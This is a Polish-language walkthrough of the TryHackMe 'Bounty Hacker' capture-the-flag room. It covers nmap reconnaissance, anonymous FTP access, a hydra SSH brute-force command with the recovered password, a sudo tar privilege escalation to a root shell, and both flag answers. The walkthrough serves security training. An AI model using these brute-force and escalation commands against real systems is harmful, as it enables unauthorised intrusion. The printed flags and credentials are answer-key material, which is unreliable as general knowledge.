 # Bounty Hacker
IP=10.10.215.100

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.215.100
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-05 11:48 EDT
Nmap scan report for 10.10.215.100
Host is up (0.060s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.231.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.57 seconds
```

Zostały wykryte 3 porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80, jednak nie ma tam nic ciekawego:

![80](img/80.JPG)

### Port 21
Przechodzimy do sprawdzenia portu 21, ponieważ logowanie Anonymous jest dozwolone. Logujemy się do systemu jako "Anonymous" i pobieramy wszystkie pliki:

![FTP](img/FTP.JPG)

Widzimy, że pliki zawierają listę haseł oraz notatkę napisaną przez użytkownika "lin":

![Lin](img/Lin.JPG)

### Port 22

Przeprowadzamy atak na serwis SSH za pomocą narzędzia hydra:

```
hydra -l lin -P /home/kali/locks.txt ssh://10.10.215.100
```

![Hydra](img/Hydra.JPG)

Logujemy się do serwisu SSH:

```
lin:RedDr4gonSynd1cat3
```

![SSH](img/SSH.JPG)

Odczytujemy pierwszą flagę z pliku user.txt:

![Flag1](img/Flag1.JPG)

```
THM{CR1M3_SyNd1C4T3}
```

## Zwiększenie poziomu uprawnień

Sprawdzamy uprawnienia użytkownika lin w systemie:

![Sudo](img/Sudo.JPG)

Widzimy, że użytkownik lin jest w stanie wykonać komendę "tar", jako root. W celu zwiększenia uprawnień wykorzystujemy exploit'a ze strony [gtfobins](https://gtfobins.github.io/gtfobins/tar/):

![Tar](img/Tar.JPG)

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Po wpisaniu komendy uzyskujemy uprawnienia root'a:

![Root](img/Root.JPG)

Odczytujemy drugą flagę z pliku root.txt:

![Flag2](img/Flag2.JPG)

```
THM{80UN7Y_h4cK3r}
```

Do zobaczenia na kolejnych CTF-ach!
